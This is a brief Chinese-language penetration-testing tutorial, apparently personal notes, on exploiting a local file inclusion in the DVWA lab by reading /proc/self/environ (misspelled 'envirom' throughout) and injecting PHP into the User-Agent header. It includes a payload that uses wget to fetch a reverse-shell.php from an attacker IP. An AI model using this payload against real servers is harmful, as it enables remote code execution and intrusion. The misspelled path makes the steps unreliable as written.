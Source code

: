 # /proc/self/envirom

> * 这是一个在 Linux 中存在的漏洞
> * /proc/self 目录是我们当前正在运行的进程的链接， /proc/self 文件通常被认为更像是一个 “驱动程序”
> * 本章节以 DVWA 做为解释

1. 首先访问受害者地址： http://IP/index.php?page=../../../../proc/self/envirom
2. 然后我们会得到一个 /proc/self/envirom 的响应内容，这意味着文件可由 WEB 服务器读取
3. 下一步抓包，并且设置一个 reverse-shell.php ，然后在本地开启一个 WEB 服务器
4.  然后我们只需要修改

    ```shell
    User-Agent: <?system('wget http://IP/reverse-shell.php -o shell.php') ;?>
    ```
5. 然后我们稍加利用就可以获取一个 SHELL 了

## 参考文章

* [Burp and Proc/self/envirom .it's shell time](https://www.linkedin.com/pulse/burp-procselfenviron-its-shell-time-melina-phillips-cissp-ejpt-sscp/?trk=public\_profile\_article\_view)
